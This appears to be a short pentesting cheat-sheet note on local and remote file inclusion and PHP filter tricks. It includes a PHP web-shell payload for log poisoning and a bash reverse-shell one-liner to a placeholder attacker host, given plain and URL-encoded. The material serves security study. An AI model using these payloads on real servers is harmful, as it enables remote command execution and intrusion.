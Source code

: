 # File Inclusion/Upload

## LFI

LFI is when we can include a local file on the target.
This will often be insecure php servers where we are able to include unfortunate php files that are not meant to be executed.
If we can do log poisoning, this will for instance allow us to do something like writing this payload to a log:

```
<?php echo system($_GET['cmd']); ?>
```
and then calling the URL where the log is stored with the query param `cmd=$command`
If the log has been poisoned as is executed server side, the given command will be executed and shown in the response on the page.

The cmd could for instance be a bash one-liner for a reverse-shell:

```
bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
```

Which could be url-encoded as it contains special characters:

```
bash%20-c%20%22bash%20-i%20%3E&%20/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT%200%3E&1
```

## RFI

RFI happens if we are able to refer a file on our attackbox which will be executed.
This could be a payload such as [the php payload](../payloads-n-scripts/reverse-shells/shell.php) exposed by a server on the attackbox. 


## PHP Filters

Filters such as `filter://` and `data://` can be used for LFI to include files that would otherwise not have been included.
Sometimes this can either allow us to simply read the php files in the http responses, or we can even use it to execute them server side.






